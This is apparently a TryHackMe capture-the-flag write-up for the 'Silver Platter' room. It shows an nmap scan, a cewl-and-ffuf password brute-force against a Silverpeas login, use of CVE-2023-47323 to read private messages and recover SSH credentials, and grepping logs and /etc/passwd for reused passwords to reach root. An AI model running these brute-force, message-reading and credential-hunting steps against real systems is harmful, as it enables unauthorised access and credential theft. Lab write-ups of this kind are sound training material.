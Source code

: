 ```yaml
---
title: "TryHackMe: Silver Platter"
author: jaxafed
categories: [TryHackMe]
tags: [web, brute-force, ffuf, idor, ssh, adm, log]
render_with_liquid: false
media_subpath: /images/tryhackme_silver_platter/
image:
  path: room_image.webp
---
```


**Silver Platter** was a simple room where we discovered a **Silverpeas** installation along with a username. We brute-forced the user's password using a custom wordlist to gain access to **Silverpeas**, and by exploiting a vulnerability in it that allows an authenticated user to read all the messages, we uncovered **SSH** credentials in one of them.

Using the discovered credentials to gain a shell, we found a password in the logs and used it to escalate to the **root** user, completing the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/silverplatter){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.191.243
Nmap scan report for 10.10.191.243
Host is up (0.089s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **8080** (`HTTP`)

### Web 80

Checking `http://10.10.191.243/`, we find a static site.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

### Web 8080

Checking `http://10.10.191.243:8080/`, we simply receive a `404` error.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

## Shell as tim

### Discovering Silverpeas

In the **Contact** section on port **80** (`http://10.10.191.243/#contact`), we find an interesting message mentioning `Silverpeas` and a username: `scr1ptkiddy`.

![Web 80 Contact](web_80_contact.webp){: width="1200" height="600"}

`Silverpeas` typically runs on `:8080/silverpeas` and visiting `http://10.10.191.243:8080/silverpeas`, we find the login page for it.

![Web 8080 Silverpeas](web_8080_silverpeas.webp){: width="1200" height="600"}

### Brute-forcing the Credentials

The contact page provides a username, and the challenge room states a password policy that disallows breached passwords. So, instead of using a wordlist like `rockyou.txt`, we can generate a custom wordlist from the text in the web application on port **80** using `cewl`:

```console
$ cewl http://10.10.191.243/ > passwords.txt
```

Now, using this wordlist with `ffuf` to brute-force the password for the `scr1ptkiddy` user, we find it as `a[REDACTED]g`:

```console
$ ffuf -u 'http://10.10.191.243:8080/silverpeas/AuthenticationServlet' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'Login=scr1ptkiddy&Password=FUZZ&DomainId=0' -w passwords.txt -r -mc all -t 100 -fs 8282
...
a[REDACTED]g              [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 2399ms]
```
{: .wrap }

### Reading Messages

Using the discovered credentials, we successfully log in as `scr1ptkiddy` to **Silverpeas**.

![Web 8080 Silverpeas Dashboard](web_8080_silverpeas_dashboard.webp){: width="1200" height="600"}

Searching for vulnerabilities in **Silverpeas**, we find [**CVE-2023-47323**](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323), which allows reading all messages via the `http://localhost:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID]` endpoint.

Exploiting this vulnerability to read the messages, when we read the message with ID `6` (`http://10.10.191.243:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`), we find the **SSH** credentials for the `tim` user.

![Web 8080 Silverpeas Messages](web_8080_silverpeas_messages.webp){: width="1200" height="600"}

Using these credentials, we can gain a shell and read the user flag at `/home/tim/user.txt`:

```console
$ ssh tim@10.10.191.243
...
tim@silver-platter:~$ wc -c user.txt
38 user.txt
```

## Shell as root

### Finding the Password

Checking the group memberships for the `tim` user, we see that the user belongs to the `adm` group:

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

As a member of the `adm` group, we can read most logs on the machine and searching the logs for passwords, we find one in `auth.log` for the **Silverpeas** database:

```console
tim@silver-platter:~$ grep -Ri 'password' /var/log 2>/dev/null
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Z[REDACTED]3/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```
{: .wrap }

Checking the `/etc/passwd` file, we see that, apart from the `tim` user, there is also the `tyler` user.

```console
tim@silver-platter:~$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

Testing the password we discovered for the `tyler` user, we successfully switch users:

```console
tim@silver-platter:~$ su - tyler
Password:
tyler@silver-platter:~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

Checking `sudo` privileges for `tyler`, we see full access:

```console
tyler@silver-platter:~$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

With this, we can use `sudo` to escalate to the `root` user and read the root flag at `/root/root.txt` to complete the room.

```console
tyler@silver-platter:~$ sudo su -
root@silver-platter:~# wc -c root.txt
38 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
